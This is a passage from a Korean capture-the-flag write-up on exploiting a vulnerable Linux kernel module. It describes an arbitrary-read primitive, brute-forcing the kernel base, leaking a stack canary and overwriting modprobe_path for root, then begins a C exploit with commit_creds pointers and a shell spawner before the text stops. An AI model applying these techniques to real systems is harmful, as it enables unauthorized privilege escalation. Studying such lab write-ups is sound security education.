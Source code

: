 ```c
__int64 __fastcall kof_read(__int64 a1, char *a2, unsigned __int64 a3)
{
  if ( a3 > 0x7FFFFFFF )
    BUG();
  return (int)copy_to_user(a2 + 8, *(char **)a2, a3);
}
```

`kof_read` 함수에서는 AAR primitive를 제공한다. 임의 커널 주소에 대해 메모리 값을 가져올 수 있는데, 중요한 것은 우리가 어떤 커널 주소도 알고 있지 않은 상태라는 것이다.

그래서 브루트포싱으로 커널 베이스 주소를 알아내야 하는데, 이때, `copy_to_user` 함수의 `rsi` 값 (커널 주소)가 유효하지 않아도 크래시가 발생하지 않아 브루트포싱이 가능하다.

![4.png](4.png)
*vmlinux base*

`vmlinux` 바이너리가 매핑되어 있는 주소 쪽이 엔트로피가 상대적으로 훨씬 적어서, 그쪽으로 브루트포싱하는 것이 좋다는 걸 경험적으로 확인했다. 해당 값을 nokaslr 상태에서의 값을 시작으로 0x1000씩 더해가면서 커널 베이스를 구할 수 있었다.

![5.png](5.png)
*maybe kernel stack?*

또한, 커널 내에 다른 유효한 페이지의 시작 주소가 박혀 있는 경우가 곧잘 존재하더라. 아마도 커널 스택이라고 생각은 하는데, 어쨌든, 그걸 활용해서 Canary 값을 leak해 올 수 있었다. 가져온 메모리에 있는 값 중 0번째 바이트가 0이고 다른 값이 모두 겹치지 않는 8바이트 값을 가져와서 그런지 Canary 값이 다른 경우가 있긴 했다. 정확하게 알 수 있는 방법이 궁금하긴 하다.

그렇게 커널 베이스와 Canary 값을 구했으면 이제 ROP를 권한상승을 하고, `/root/flag`를 읽어내야 한다.

그런데, 유효한 가젯을 찾기가 힘들더라. 여러 삽질을 하다가 `modprobe_path`를 덮어서 익스하는 기법이 가장 간단하게 생겨서 그걸 가져왔다.

### **[0x03] 익스플로잇**

```c
// gcc -masm=intel -static -o exp exp.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

struct register_val {
    uint64_t user_rip;
    uint64_t user_cs;
    uint64_t user_rflags;
    uint64_t user_rsp;
    uint64_t user_ss;
} __attribute__((packed));
struct register_val rv;

void shell() {
    execl("/bin/sh", "sh", NULL);
}

void backup_rv(void) {
    asm("mov rv+8, cs;"
        "pushf; pop rv+16;"
        "mov rv+24, rsp;"
        "mov rv+32, ss;"
       );
```